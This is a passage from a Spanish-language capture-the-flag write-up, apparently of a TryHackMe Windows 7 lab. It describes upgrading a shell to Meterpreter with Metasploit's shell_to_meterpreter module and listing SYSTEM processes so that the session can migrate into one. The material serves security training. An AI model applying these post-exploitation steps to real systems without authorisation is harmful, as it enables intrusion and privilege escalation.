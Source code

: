 ## Phase 3: Meterpreting
La shell que tenemos es bastante mala e inestable asi que debemos establecer una con `meterpeter` para esto primero debemos mandar al background la session mediante `CTRL + Z`. Luego en metasploit usamos el modulo `shell_to_meterpreter`, el mismo nos solicita el numero de la sesion anterior, lo establecemos y elevamos nuestra shell. La shell de meterpeter esta en `sessions -l`, probablemente sea la 2da.

```shell
# Volver a la shell
meterpreter > shell
Process 2220 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>

#Con CTRL + Z volvemos al meterpeter
```
Aqui TryHackMe nos guia a elevar el proceso a uno que corra con mas permisos, asi que hacemos justamente eso.

```shell
meterpreter > ps

Process List
============

PID   PPID  Name                  Arch  Session  User                          Path
---   ----  ----                  ----  -------  ----                          ----
0     0     [System Process]
4     0     System                x64   0
416   4     smss.exe              x64   0        NT AUTHORITY\SYSTEM           \SystemRoot\System32\smss.exe

//////  Borre un par por simplicidad //////

2212  692   sppsvc.exe            x64   0        NT AUTHORITY\NETWORK SERVICE
2224  2204  mscorsvw.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\Microsoft.NET\Framework64\v4.0.30319\mscorsvw.exe
2252  692   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE
2432  692   svchost.exe           x64   0        NT AUTHORITY\SYSTEM
2504  692   vds.exe               x64   0        NT AUTHORITY\SYSTEM
2740  1788  cmd.exe               x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\cmd.exe
2800  1292  cmd.exe               x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\cmd.exe
2808  548   conhost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\conhost.exe
2988  692   TrustedInstaller.exe  x64   0        NT AUTHORITY\SYSTEM
```
